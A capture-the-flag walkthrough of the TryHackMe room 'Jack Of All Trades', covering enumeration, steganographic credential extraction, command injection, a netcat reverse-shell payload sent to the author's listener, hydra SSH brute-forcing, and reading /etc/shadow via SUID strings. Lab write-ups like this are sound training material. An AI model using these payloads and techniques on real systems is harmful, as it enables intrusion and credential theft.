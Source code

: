 # Jack Of All Trades (THM)

- https://tryhackme.com/roomjackofalltrades
- March 14, 2023
- easy

---

## Enumeration

### Nmap

```
PORT      STATE    SERVICE   REASON      VERSION
22/tcp    open     http      syn-ack     Apache httpd 2.4.10 ((Debian))
80/tcp    open     ssh       syn-ack     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
```
- ports are reverse :D
- but problem is I can't open in the browser 
> there must be a way to open 22 port in browser but in this, I want to test my command line skill and try to answer only using curl and python
- let's explore from command line

![](screenshots/2023-03-14-02-33-26.png)

- `/recovery.php` and some unknown base64 string found

```sh
$ echo 'UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==' | base64 -d
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```
- `recovery.php` file

![](screenshots/2023-03-14-02-37-33.png)

- it has a form with `user,pass,submit` value to make post request and some base decode strings
- this time, the cipher is a little tricky

![](screenshots/2023-03-14-02-52-53.png)

- it redirects to this page - https://en.wikipedia.org/wiki/Stegosauria
- which is about dinosour (Stegosauria)
- it reminds me `stegonography` or sorry if i wrong spelling, image analysis
- is it need to do analyse image
- i found 3 images from home page and get them to local machine

```sh
$ wget http://$IP:22/assets/header.jpg
$ wget http://$IP:22/assets/stego.jpg
$ wget http://$IP:22/assets/jackinthebox.jpg
```
- extract these images with steghide and password from above

```sh
$ steghide extract -sf header.jpg      
Enter passphrase: 
wrote extracted data to "cms.creds".

$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```
- Login `recovery.php` using these credentials 
```sh
$ curl -X POST http://$IP:22/recovery.php -d "user=jackinthebox&pass=TplFxiSHjY&submit=Submit" -vv
```

```
< HTTP/1.1 302 Found
...
< Set-Cookie: PHPSESSID=iud9e8h8tv1pg2bpclrikp9tn3; path=/
...
< Set-Cookie: login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84; expires=Wed, 15-Mar-2023 20:36:37 GMT; Max-Age=172800
< location: /nnxhweOV/index.php
```
- by using these information, request to `/nnxhweOV/index.php` with that cookies

```sh
$ curl -X POST http://$IP:22/nnxhweOV/index.php -H "Cookie: PHPSESSID=iud9e8h8tv1pg2bpclrikp9tn3;login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84;" -vv
```
- response
```
GET me a 'cmd' and I'll run it for you Future-Jack.
```
- I think it is a parameter to run some linux command

```sh
$ curl -X POST http://$IP:22/nnxhweOV/index.php\?cmd\=id -H "Cookie: PHPSESSID=iud9e8h8tv1pg2bpclrikp9tn3;login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84;" -vv
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- Ok, we get remote code execution
- try to get reverse shell
- I wrote python script for easy usage

## User Access

- listen with nc at local machine and run this

```python
import requests

url = "http://10.10.20.116:22/nnxhweOV/index.php"

params = {
    "cmd": "rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f"
}

headers = {
    "Cookie": "PHPSESSID=iud9e8h8tv1pg2bpclrikp9tn3;login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84;"
}
requests.get(url, headers=headers, params=params)
```

![](screenshots/2023-03-14-03-17-24.png)

- Get `www-data` access 
- under `/home` folder, found `jacks_password_list` file

![](screenshots/2023-03-14-03-29-01.png)

- grep that file to local machine
- there is ssh port open and it may be ssh passwords for jack
- try to brute force with hydra
```sh
$ hydra -l jack -P pwd ssh://$IP -s 80
```
- found jack password
- enter ssh as jack 

![](screenshots/2023-03-14-03-32-38.png)

- jack has no sudo access
- find suid and found `usr/bin/strings`
- suid `strings` can read any file
- form ctf perspective, I only try to get root flag which may exists in `/root/root.txt` folder
- user flag may be user.jpg under jack home directory and copy to local machine

```sh
$ scp -P 80 jack@<remote-ip>:user.jpg .
```

> to get root access, read the `/etc/shadow` file and copy the first line which is root password and try to crack it or find other exploits

---